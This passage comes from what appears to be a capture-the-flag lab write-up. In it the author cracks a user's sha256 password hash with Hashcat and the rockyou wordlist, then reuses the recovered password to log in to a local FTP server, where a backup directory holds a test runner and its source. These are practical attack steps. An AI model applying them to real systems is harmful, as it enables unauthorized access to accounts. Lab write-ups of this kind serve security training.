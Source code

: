 Looks like an admin account and a webdev account! I grabbed the hash for the `adam` account and threw it at Hashcat

```bash
$ hashcat hash /usr/share/wordlists/rockyou.txt --force
....snip....
Restore.Point....: 6979584/14344385 (48.66%)
Restore.Sub.#1...: Salt:1 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: jlhughes20 -> jkr46bxm

sha256$Z7bcBO9P43gvdQWp$a67ea5f8722e69ee99258f208dc56a1d5d631f287106003595087cf42189fc43:adam gray
```

Boom! The password for the `adam` account is `adam gray`. I tried to log in using SSH, but it didn't work

```bash
dev_acc@intuition:~$ su adam
Password: 
su: Authentication failure
```

### FTP

I decided to check the FTP server, and I found a directory called `backup`

```bash
dev_acc@intuition:~$ ftp adam@127.0.0.1
Connected to 127.0.0.1.
220 pyftpdlib 1.5.7 ready.
331 Username ok, send password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering extended passive mode (|||57243|).
125 Data connection already open. Transfer starting.
drwxr-xr-x   3 root     1002         4096 Apr 10 08:21 backup
226 Transfer complete.
ftp> 
```

Inside the `backup` directory, I found a directory called `runner1`. 

- run-tests.sh
- runner1
- runner1.c

```bash
ftp> ls
229 Entering extended passive mode (|||32965|).
150 File status okay. About to open data connection.
drwxr-xr-x   2 root     1002         4096 Apr 10 08:21 runner1
226 Transfer complete.
ftp> cd runner1
250 "/backup/runner1" is the current directory.
ftp> ls
229 Entering extended passive mode (|||45563|).
125 Data connection already open. Transfer starting.
-rwxr-xr-x   1 root     1002          318 Apr 06 00:25 run-tests.sh
-rwxr-xr-x   1 root     1002        16744 Oct 19  2023 runner1
-rw-r--r--   1 root     1002         3815 Oct 19  2023 runner1.c
226 Transfer complete.
ftp> 
```
